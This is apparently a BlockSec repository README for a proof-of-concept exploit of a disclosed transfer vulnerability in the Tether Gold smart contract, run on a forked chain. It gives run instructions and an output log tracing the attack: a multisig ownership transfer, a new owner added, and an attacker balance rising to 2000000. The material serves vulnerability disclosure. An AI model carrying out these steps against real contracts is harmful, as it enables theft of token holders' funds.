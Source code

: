 # TGoldPoc

This repo contains the PoC of the [public transfer vulnerability in the Tether Gold contract](https://blocksec.com/blog/public-transfer-vulnerability-of-the-tether-gold-smart-contract).


To use this PoC, sign up in [Phalcon Fork](https://blocksec.com/phalcon/). Then add the access key to the PoC.


This PoC requires the web3.py, please install it first to use the PoC.

```
>>python tgold.py
--------------------start ----------
[*] Insufficent fund in "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5". Get some Ether from vitalik.
[*] Insufficent fund in "0x14C4fffd8748CF0E23Af945a11eeaBC3416dD4c1". Get some Ether from vitalik.
[*] 0xAC3B242E2E561da9F4cE34746E67d004E6341FA0 Submit a transaction in the multisig wallet to transferOwnership to 0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5.
proposal_id: 2207
[*] Confirmed the transaction by 0xEe5207d3c88562fc814496Af0845B34CFD4afc8c.
[*] Confirmed the transaction by 0x61D5a4d5Bd270e59E9320243e574288e2a199fED.
[*] The pool owner is "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5"
[*] Add a new owner "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5" to TGold contract
[*] Before the attack - balance: 0
[*] Lunch the attack
[*] After the attack - balance: 2000000
[*] Pwned!
```

If you have any question please contact us contact@blocksec.com.



